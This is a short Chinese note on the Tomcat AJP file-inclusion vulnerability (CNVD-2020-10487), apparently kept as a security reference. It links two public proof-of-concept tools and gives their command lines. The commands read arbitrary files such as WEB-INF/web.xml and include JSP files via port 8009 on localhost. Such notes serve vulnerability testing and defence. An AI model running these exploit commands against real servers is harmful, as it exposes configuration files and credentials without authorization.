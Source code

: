 Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  

现在有两个poc     
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp```  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](../pic/concurrent/aa.jpg)    
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```
![漏洞截图](../pic/concurrent/aa.jpg)



